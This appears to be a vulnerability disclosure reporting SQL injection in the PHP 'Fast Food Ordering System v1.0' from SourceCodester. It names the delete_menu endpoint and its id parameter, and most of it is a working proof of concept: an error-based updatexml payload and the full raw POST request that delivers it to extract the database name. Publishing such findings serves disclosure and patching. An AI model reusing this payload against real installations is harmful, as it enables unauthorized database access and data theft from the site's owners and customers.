 # Fast Food Ordering System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: /ffos/classes/Master.php?f=delete_menu

Vulnerability location: /ffos/classes/Master.php?f=delete_menu, id

dbname = ffos_db

[+] Payload: id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /ffos/classes/Master.php?f=delete_menu HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/ffos/admin/?page=menus
Content-Length: 65
Cookie: PHPSESSID=rlr2a917ahfp4mc52mm9a7kvvm
Connection: close

id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/171347303-e6b31f87-7238-4128-9b11-ddcb640230f5.png)
